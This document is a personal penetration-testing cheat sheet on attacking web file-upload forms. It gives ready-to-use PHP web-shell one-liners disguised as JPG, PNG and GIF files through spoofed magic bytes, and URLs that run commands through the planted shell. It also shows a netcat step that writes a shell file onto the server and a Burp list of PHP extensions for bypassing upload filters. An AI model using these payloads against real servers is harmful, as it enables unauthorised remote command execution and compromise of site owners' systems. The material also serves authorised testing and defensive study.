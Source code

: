 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php

#### weevely
[[Weevely]]

#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect

Look for some form of "accept=" property.
ALSO, look in main file, such as main.js

![[Pasted image 20220905133644.png]]

Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.

[[11._XML XXE#Quick file upload win]]

#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems. 

JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures. 

Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`

![[Pasted image 20220922121011.png]]

```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg 
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```

![[Pasted image 20220922121036.png]]

`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`

PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`

```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```

`http://$TARGET/uploads/webshell.php.png?cmd=whoami`

#### GIF

Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
